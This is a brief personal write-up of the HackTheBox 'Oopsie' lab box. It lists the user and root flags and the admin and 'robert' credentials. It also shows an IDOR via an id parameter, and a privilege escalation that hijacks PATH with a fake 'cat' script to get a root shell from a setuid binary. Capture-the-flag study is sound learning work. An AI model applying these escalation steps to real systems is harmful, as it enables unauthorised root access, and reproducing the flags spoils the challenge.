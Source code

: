 # HackTheBox  Oopsie(starting-point)

> Saikat Karmakar | Mar 5:2021

> ip : 10.10.10.28

-------------------------------------------------------------------------------

1. user flag
```
f2c74ee8db7983851ab2a96a44eb7981
```
2. root flag
```
af13b0bee69f8a877c3faf667f7beacf
```

--
-----------
***Notes***
-----------
url -> http://megacorp.com/cdn-cgi/login
creds
```
user : admin 
pass : MEGACORP_4dm1n!!
```
super-admin id = 30
/cdn-cgi/login/admin.php?content=accounts&id=30 
super-admin = 86575

box creds in db.php
```
user : robert
pass : M3g4C0rpUs3r!
```

find / -group bugtracker -type f 2>/dev/null
/usr/bin/bugtracker
this file calling the `cat` from relative path.So create a malicious cat 
```
export PATH=/tmp:$PATH
cd /tmp/
echo '/bin/bash' > cat
chmod +x cat
```
run the file get the root
